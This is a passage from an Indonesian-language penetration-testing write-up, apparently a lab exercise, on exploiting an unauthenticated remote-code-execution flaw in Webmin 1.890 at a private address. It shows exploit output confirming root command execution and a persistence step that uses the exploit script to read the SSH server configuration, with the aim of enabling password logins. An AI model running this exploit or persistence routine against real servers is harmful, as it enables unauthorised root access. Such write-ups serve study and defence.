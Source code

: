 ```bash
<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
root
</p>
```

Ternyata command dieksekusi langsung oleh `root`, sehingga di sini saya tidak perlu lagi melakukan privilege escalation.

## 4. Maintaining Access
Setelah dapat melakukan RCE, langkah selanjutnya yang paling mudah adalah membuat akses ssh, sehingga saya bisa mengakses shell mesin langsung dari terminal saya. Saya mencoba untuk enable autentikasi ssh menggunakan password, dengan cara mengecek config terlebih dahulu.

```bash
natanhp@ngoumah ~/D/w/WebMin-1.890-Exploit-unauthorized-RCE (master) [1]> python webmin-1.890_exploit.py 192.168.75.128 10000 "cat /etc/ssh/sshd_config"
/home/natanhp/Downloads/wembin/WebMin-1.890-Exploit-unauthorized-RCE/webmin-1.890_exploit.py:6: SyntaxWarning: invalid escape sequence '\_'
  STAIN = """


--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ /
 ___/ // / / ___ |_/ // /|  /
/____//_/ /_/  |_/___/_/ |_/

--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
#	$OpenBSD: sshd_config,v 1.101 2017/03/14 07:19:07 djm Exp $

# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.

# This sshd was compiled with PATH=/usr/bin:/bin:/usr/sbin:/sbin

# The strategy used for options in the default sshd_config shipped with
# OpenSSH is to specify options with their default value where
# possible, but leave them commented.  Uncommented options override the
# default value.

#Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key

# Ciphers and keying
#RekeyLimit default none

# Logging
#SyslogFacility AUTH
#LogLevel INFO

```